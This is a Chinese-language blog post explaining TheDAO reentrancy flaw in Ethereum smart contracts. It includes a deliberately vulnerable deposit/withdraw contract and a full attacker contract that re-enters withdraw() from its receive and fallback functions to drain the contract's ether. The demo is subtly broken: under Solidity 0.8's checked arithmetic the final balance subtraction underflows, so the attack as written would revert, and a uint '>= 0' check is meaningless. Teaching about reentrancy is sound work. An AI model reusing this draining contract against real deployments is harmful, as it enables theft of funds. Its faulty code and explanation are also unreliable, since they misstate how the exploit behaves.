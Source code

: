 ```yaml
---
title: tho dao 合约漏洞
date: 2024-07-30 13:43:23
author: ivhu
categories:
  - 区块链
  - 以太坊
tags:
  - 合约安全
  - solidity
description: 这篇博客分析了TheDAO漏洞的机制，阐明了如何利用Solidity合约的特性进行攻击，具体展示了黑客合约如何通过重入攻击提取TheDAO合约中存储的以太坊，强调了在合约中处理资金转账和状态更新时需要遵循的安全原则。
---
```


> 这篇博客分析了TheDAO漏洞的机制，阐明了如何利用Solidity合约的特性进行攻击，具体展示了黑客合约如何通过重入攻击提取TheDAO合约中存储的以太坊，强调了在合约中处理资金转账和状态更新时需要遵循的安全原则。

## 什么是 TheDao 漏洞？

简单来讲，thedao 漏洞允许黑客将 thedao 合约中储存的 eth 全部取走。

那么什么是合约之中的 eth 呢？

solidity 允许合约定义 payable 方法来接受 eth. 当用户调用带有 payable 关键字的合约方法时，如果`msg.value`不为 0,则将`msg.value`转移到合约账下。

由于 thedao 是一个面对所有人的合约，而他的业务逻辑也需要用户将 eth 转移到他的合约里面。

那么正常情况下 thedao 合约中有大量的 eth,来自于不同人的转账，一般而言合约会使用一个 mapping 来记录每个地址有多要 eth 在这里面。

## solidity 特性

如果我们向一个合约转账，这里的转账不是使用合约调用的方式，而是像普通转账一样，calldata 为空。

这时合约会自动调用 receive 方法（如果有的话），这将允许合约在收到转账后进行一些操作。

### 什么是先转账后记账

在合约中我们可以使用 transfer,send 等方法将合约中一定数量的 eth 转移到对应的账户中，当然这里的转账对象也可以是另一个合约。

而记账的意思是，由于我们所有的 eth 都是放合约里面，没有区分那个 eth 是谁的，具体的记录一般在合约中用 mapping 记录，那么在合约中，每次我们进行转账时，都应该修改我们维护的账本（也就是那个 mapping）。先转账后记账的意思就是，先使用 transfor,send,call 等方法转账，而后更新 mapping 中的数据。在合约中表现为转账的操作在修改 mapping 的操作前面。

eg：

```solidity
    (bool sent, ) = msg.sender.call{value: bal}("");  // 先转账
    require(sent, "Failed to withdraw sender's balance");

    // Update user's balance.
    balances[msg.sender] = balances[msg.sender] - bal;  // 后修改mapping中的数据

```

那么回到 solidity 的特性，在转账时，接受者合约可以定义`recevie`方法，在转账发生时进行相关操作。

## 漏洞的利用

- 当我们调用 theDao 中转账函数时，合约会向`msg.sender`转账.

- `msg.sender`是黑客的合约，当 theDao 向黑客的合约转账时，会调用黑客合约中的 recevie 方法.

- 由于 evm 是单线程的，所以后面修改 mapping 的操作还不会进行，而黑客的 recevie 方法则再次调用 thedao 中的转账合约.

- 由于 thedao 合约还没有修改账本，所以 thedao 合约还是认为黑客合约还可以提款，而当进行到提款操作时又会进入到黑客合约的`recevie`方法.

如此循环，直到达到黑客`recevie`中设置的阈值。

**案例合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Dao {
mapping(address => uint256) public balances;

    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposits must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        // Check user's balance
        require(
            balances[msg.sender] >= 1 ether,
            "Insufficient funds.  Cannot withdraw"
        );
        uint256 bal = balances[msg.sender];

        // Withdraw user's balance
        // payable(msg.sender).transfer(bal);  // transfer只能向eoa发送交易
        (bool sent, ) = msg.sender.call{value: bal}("");  // call  eoa和合约都可以发送
        require(sent, "Failed to withdraw sender's balance");

        // Update user's balance.
        balances[msg.sender] = balances[msg.sender] - bal;
        require(balances[msg.sender]>=0,"balances < 0");
    }

    function daoBalance() public view returns (uint256) {
        return address(this).balance;
    }

}
```

**黑客合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IDao {
    function withdraw() external ;
    function deposit()external  payable;
 }

contract Hacker{
    IDao dao;
    address payable hacker;

    constructor(address _dao){
        dao = IDao(_dao);
        hacker = payable(msg.sender);
    }

    function attack() public payable {
        // Seed the Dao with at least 1 Ether.
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();

        // Withdraw from Dao.
        dao.withdraw();
    }

    fallback() external payable{
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }
    receive() external payable {
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }

    function getBalance()public view returns (uint){
        return address(this).balance;
    }
    function getAllETH()public {
        hacker.transfer(address(this).balance);
    }
}
```
